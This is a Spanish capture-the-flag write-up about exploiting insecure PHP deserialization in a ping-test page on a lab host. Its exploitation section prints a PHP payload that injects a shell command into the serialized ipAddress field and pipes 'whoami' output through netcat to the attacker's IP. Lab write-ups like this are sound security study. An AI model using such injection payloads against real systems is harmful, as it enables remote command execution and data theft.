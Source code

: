 Accedo a http://secure.cereal.ctf:44441/back_en/index.php.bak donde consigo observar una página backup de la principal donde se encuentra el Ping Test

![imagen](https://github.com/user-attachments/assets/f579ed9d-e703-477e-9229-f696bbafa358)

Inspecciono el código fuente y me doy cuenta que soy capaz de ver código PHP, donde se está empleando la función unserialize() de parte del servidor

![imagen](https://github.com/user-attachments/assets/69bacc02-6708-4e12-b6a6-1762633dc35c)

## Vulnerability analysis

### PHP Deserialization Attack

Ya que tengo acceso al codigo PHP lo analizaré brevemente para entender correctamente que esta pasando, lo primero que hay es una clase llamada pingTest la cual también podia observar en BurpSuite, la clase contiene los siguientes valores

* ipAddress: Tiene como valor 127.0.0.1, lo que es igual a localhost, por eso cada que se recarga se realiza un ping hacia si mismo en la página web
* isValid: Tiene como valor False y se emplea para validar si se introduce una dirección IP válida
* output: Supongo que es donde se incluye el output del comando realizado a nivel de sistema

Dentro de la clase existe una función validate(), la cual comprueba si la dirección IP es válida con this->isValid

Si la dirección IP es válida se pasa a la función ping la cual utiliza shell_exec para ejecutar 3 pings hacia la dirección indicada

![imagen](https://github.com/user-attachments/assets/0ea21741-4784-46bb-abca-4212383336ca)

Lo importante reside en esta parte del código donde se está validando si a través de POST existe el parámetro obj, si es así, $pingTest que es el input del usuario se deserializa y se urldecodea sin nigun tipo de validación en el input del usuario.

![imagen](https://github.com/user-attachments/assets/624d22db-1ba4-4b1b-afe6-f855c0f5d488)

## Exploitation

### Abusing PHP Insecure Deserialization Attack

Puedo utilizar la clase pingTest del código PHP para realizar el proceso inverso, serializar un objeto malicioso de mi parte y enviarlo al servidor y así comprobar si se ejecuta, lo unico que hago es escapar con ; la ip 127.0.0.1 indicada por defecto en el index.php del servidor y tornar el valor isValid a True para que tome el input como una IP válida. Comenzaré ejecutando el comando whoami y enviandolo por netcat a mi dirección ip por el puerto 4444

```php
<?php 
class pingTest {
	public $ipAddress = ";bash -c '/usr/bin/whoami | nc 192.168.2.133 4444'";
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new pingTest));
?>
```
